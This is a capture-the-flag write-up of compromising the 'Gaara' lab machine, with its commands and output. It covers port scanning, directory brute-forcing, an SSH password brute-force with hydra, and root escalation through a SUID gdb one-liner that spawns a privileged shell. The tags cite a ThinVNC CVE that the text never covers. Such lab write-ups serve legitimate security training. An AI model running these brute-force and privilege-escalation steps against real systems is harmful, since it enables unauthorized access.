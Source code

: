 ```yaml
---

title: "Gaara"
date: 2022-05-12 01:09:33 +0300
author: oste
# image: /assets/img/Posts/gaara.png
categories: [Proving Grounds, Easy]
tags: [metasploit, ThinVNC, CVE-2019-17662, THINVNC 1.0B1 PATH TRAVERSAL]
---
```



We first begin by performing a simple nmap scan to determine what ports are open and services running behind them.

```nmap
➜  nmap -sC -sV -p- -T4 192.168.85.142
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-10 07:12 EDT
Stats: 0:07:46 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 87.61% done; ETC: 07:21 (0:01:05 remaining)
Nmap scan report for 192.168.85.142 (192.168.85.142)
Host is up (0.17s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 3e:a3:6f:64:03:33:1e:76:f8:e4:98:fe:be:e9:8e:58 (RSA)
|   256 6c:0e:b5:00:e7:42:44:48:65:ef:fe:d7:7c:e6:64:d5 (ECDSA)
|_  256 b7:51:f2:f9:85:57:66:a8:65:54:2e:05:f9:40:d2:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Gaara
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 616.73 seconds
➜
```

Awesome, so we have Apache webserver running. Looking at the contents of the site, we get a static image with nothing much of help.

![image](https://user-images.githubusercontent.com/58165365/167616092-c256ca70-e892-4b2b-bec0-db56c05b41ef.png)

So i decided to bruteforce hidden directories and found `/Cryoserver`

```bash
➜  ffuf -u http://192.168.85.142/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.3.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.85.142/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________
server-status           [Status: 403, Size: 279, Words: 20, Lines: 10]
Cryoserver              [Status: 200, Size: 327, Words: 1, Lines: 303]
:: Progress: [233315/1273833] :: Job [1/1] :: 238 req/sec :: Duration: [0:17:40] :: Errors: 0 ::^Z
[1]  + 2495 suspended  ./ffuf -u http://192.168.85.142/FUZZ -w

```

![image](https://user-images.githubusercontent.com/58165365/167617490-031370a4-3f90-4fb5-80f0-15dc023037c5.png)

Scrolling down on what seemed like a blank page, revealed three hidden directories named after characters in the Naruto Anime.




curl http://192.168.85.142/iamGaara  | grep -oE '\w+' | sort -u > gara.txt


We get a base58 encoded string which we can easily decode using [CyberChef](https://gchq.github.io/CyberChef/#recipe=To_Base58('123456789ABCDEFGHJKLMNPQRSTUVWXYZabcdefghijkmnopqrstuvwxyz'))

![image](https://user-images.githubusercontent.com/58165365/167616744-ef7c148d-9b90-41f1-85ca-13a4ec244aa2.png)

Looks like we found a username & password. Since we did not come across a login screen, i tried to ssh into the machine using the creds but unfortunately they did not work. So i thought, since we have a username that we have come across severaly while enumerating, how about we try bruteforce ssh with hydra?


```bash
➜  hydra -l gaara -P /usr/share/wordlists/rockyou.txt 192.168.85.142 ssh
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-05-10 07:19:54
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://192.168.85.142:22/
[STATUS] 146.00 tries/min, 146 tries in 00:01h, 14344256 to do in 1637:29h, 16 active
[22][ssh] host: 192.168.85.142   login: gaara   password: iloveyou2
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 4 final worker threads did not complete until end.
[ERROR] 4 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-05-10 07:21:54
```

Oh yes. We now have a valid password. Lets ssh and get our first flag.


```bash
➜  ssh gaara@192.168.85.142
gaara@192.168.85.142's password:
Linux Gaara 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
gaara@Gaara:~$ id
uid=1001(gaara) gid=1001(gaara) groups=1001(gaara)
gaara@Gaara:~$ ls -la
total 32
drwxr-xr-x 2 gaara gaara 4096 Apr 27  2021 .
drwxr-xr-x 3 root  root  4096 Dec 13  2020 ..
lrwxrwxrwx 1 root  root     9 Mar 30  2021 .bash_history -> /dev/null
-rw-r--r-- 1 gaara gaara  220 Dec 13  2020 .bash_logout
-rw-r--r-- 1 gaara gaara 3526 Dec 13  2020 .bashrc
-rw-r--r-- 1 gaara gaara   32 Apr 27  2021 flag.txt
-rw-r--r-- 1 gaara gaara   33 May 10 07:11 local.txt
-rw-r--r-- 1 gaara gaara  807 Dec 13  2020 .profile
-rw------- 1 gaara gaara  102 Dec 13  2020 .Xauthority
gaara@Gaara:~$ cat flag.txt
Your flag is in another file...
gaara@Gaara:~$ wc local.txt
 1  1 33 local.txt
```

We can then try find a way to privesc. In this case i looked at binaries with SUID bit set and `gdb` stood out.


```
gaara@Gaara:~$ find / -type f -perm -04000 -ls 2>/dev/null
    12750     52 -rwsr-xr--   1 root     messagebus    51184 Jul  5  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
   135600     12 -rwsr-xr-x   1 root     root          10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
    16097    428 -rwsr-xr-x   1 root     root         436552 Jan 31  2020 /usr/lib/openssh/ssh-keysign
    22040   7824 -rwsr-sr-x   1 root     root        8008480 Oct 14  2019 /usr/bin/gdb
    19754    156 -rwsr-xr-x   1 root     root         157192 Feb  2  2020 /usr/bin/sudo
    21629   7396 -rwsr-sr-x   1 root     root        7570720 Dec 24  2018 /usr/bin/gimp-2.10
    22047     36 -rwsr-xr-x   1 root     root          34896 Apr 22  2020 /usr/bin/fusermount
       53     44 -rwsr-xr-x   1 root     root          44528 Jul 27  2018 /usr/bin/chsh
       52     56 -rwsr-xr-x   1 root     root          54096 Jul 27  2018 /usr/bin/chfn
       55     84 -rwsr-xr-x   1 root     root          84016 Jul 27  2018 /usr/bin/gpasswd
     3436     44 -rwsr-xr-x   1 root     root          44440 Jul 27  2018 /usr/bin/newgrp
     3583     64 -rwsr-xr-x   1 root     root          63568 Jan 10  2019 /usr/bin/su
       56     64 -rwsr-xr-x   1 root     root          63736 Jul 27  2018 /usr/bin/passwd
     3908     52 -rwsr-xr-x   1 root     root          51280 Jan 10  2019 /usr/bin/mount
     3910     36 -rwsr-xr-x   1 root     root          34888 Jan 10  2019 /usr/bin/umount
```

Doing a quick lookup at [GTFO bins](https://gtfobins.github.io/gtfobins/gdb/#capabilities), we get a way a way to create a backdoor to maintain privileged access by manipulating its own process UID.

```
gaara@Gaara:~$ /usr/bin/gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
GNU gdb (Debian 8.2.1-2+b3) 8.2.1
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word".
# id
uid=1001(gaara) gid=1001(gaara) euid=0(root) egid=0(root) groups=0(root),1001(gaara)
# cd /root
# ls -la
total 28
drwx------  3 root root 4096 May 10 07:11 .
drwxr-xr-x 18 root root 4096 Dec 13  2020 ..
lrwxrwxrwx  1 root root    9 Mar 30  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-------  1 root root   33 May 10 07:11 proof.txt
-rw-r--r--  1 root root   32 Apr 27  2021 root.txt
drwxr-xr-x  2 root root 4096 Mar 30  2021 .ssh
# cat root.txt
Your flag is in another file...
# wc root.txt
 1  6 32 root.txt
#
```
